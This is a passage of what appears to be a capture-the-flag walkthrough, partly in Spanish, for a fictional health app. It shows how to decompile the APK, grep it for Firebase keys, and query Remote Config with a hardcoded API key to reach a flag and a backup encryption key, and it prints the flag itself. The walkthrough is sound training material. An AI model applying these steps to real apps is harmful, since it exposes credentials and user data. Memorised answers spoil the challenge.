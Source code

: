    ```kotlin
                           }
                       }
                   }
               }
       }
   }
   ```

#### Method 3: Firebase Remote Config (Alternativo)

```bash
# Si necesitas acceder a Remote Config en lugar de Firestore
PROJECT_ID="arctic-bee-470901-c4"
API_KEY="AIzaSyBGKPKopYsBhYQmPfzZAlk_cHpv7MW8QWQ"

curl -X GET \
  "https://firebaseremoteconfig.googleapis.com/v1/projects/${PROJECT_ID}/remoteConfig" \
  -H "Authorization: Bearer ${API_KEY}" \
  -H "Content-Type: application/json"
```

### Step 5: Flag Extraction

**Expected Flag Location**: Firestore collection `config` document field `admin_debug_token`

**Flag Format**: `CTF{m3d1cl0udx_m0b1l3_f1r3b4s3_r3m0t3_c0nf1g_83jrldhc}`

**Ubicaciones Adicionales de Datos Sensibles**:
1. **Backup Encryption Key**: `backup_encryption_key` field en el mismo documento
2. **Theme Configuration**: `theme_color` field con configuración de UI
3. **Additional Config**: Otros documentos en la colección `config` pueden contener información sensible

### Step 6: Verification

```bash
# Verify flag format
echo "Found flag: CTF{m3d1cl0udx_m0b1l3_f1r3b4s3_r3m0t3_c0nf1g_xxxxxxxx}"

# Optional: Explore additional Firebase services
# - Firestore database
# - Firebase Authentication
# - Firebase Storage
```

## 🔧 Alternative Analysis Methods

### Method 1: APKTool Analysis

```bash
# Install apktool
apktool d medicloudx-health-manager.apk

# Navigate to resources
cd medicloudx-health-manager/res/values/
grep -r "google_api_key\|project_id\|firebase" .
```
